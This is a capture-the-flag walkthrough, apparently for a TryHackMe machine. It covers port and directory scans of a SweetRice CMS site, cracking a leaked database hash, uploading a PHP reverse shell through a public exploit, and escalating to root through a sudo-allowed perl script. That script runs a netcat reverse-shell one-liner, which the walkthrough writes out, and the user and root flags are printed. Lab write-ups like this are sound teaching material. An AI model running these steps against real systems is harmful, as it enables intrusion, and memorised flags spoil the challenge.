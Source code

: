 <head>
<h1><center>Break Out The Cage</center></h1>
</head>

## Description

<img src="./images/des.png" width="450">

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     tcpwrapped
10082/tcp filtered amandaidx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

Going over to the port 80 shows default Apache webpage.

Directory Scan shows some interesing pages

```
403      GET        9l       28w      277c http://10.10.60.215/.htpasswd
403      GET        9l       28w      277c http://10.10.60.215/.htaccess
301      GET        9l       28w      314c http://10.10.60.215/content
301      GET        9l       28w      325c http://10.10.60.215/content/attachment
403      GET        9l       28w      277c http://10.10.60.215/server-status
200      GET       15l       74w     3338c http://10.10.60.215/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.60.215/index.html
403      GET        9l       28w      277c http://10.10.60.215/icons/
301      GET        9l       28w      318c http://10.10.60.215/content/inc
200      GET       36l      151w     2198c http://10.10.60.215/content/index.php
```

Here the most interesting directories are `/content/` and `/content/attachment/`

Visiting `/content/` shows some kind of website under development.

<img src="./images/web.png">

At this point we know that this website is using `SweetRice CMS`.
Now searching for the exploits we find this [script](https://www.exploit-db.com/download/40716)


Now checking the `attachments` we can find this file `mysql_bakup_20191129023059-1.5.1.sql` which has username, password hash.
Using [CrackStation](https://crackstation.net) we can find the password.

```
username : manager
password : Password123
```

Now using the above script we can upload a reverse shell onto the machine.
Here I have used the PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
<img src="./images/ban.png">

Heading over to the url `http://10.10.60.215/content/attachment/penmonkey.php5` gives us the shell.
After getting shell in order to stabilize it we can use Python.

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Learn more about stabilizing shells [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)

<br>

## Machine

We are logged in as `www-data`.

Now `sudo -l` command shows us this

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Now checking the script `backup.pl`

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Ahh!! Another script..😫

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Whoa It's a reverse shell..
And we have write access to this file

Change the host IP and port to our local machine's IP and run the command `sudo /usr/bin/perl /home/itguy/backup.pl` will give us the shell as `root`.

<br>

user flag

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

root flag

```
THM{6637f41d0177b6f37cb20d775124699f}
```
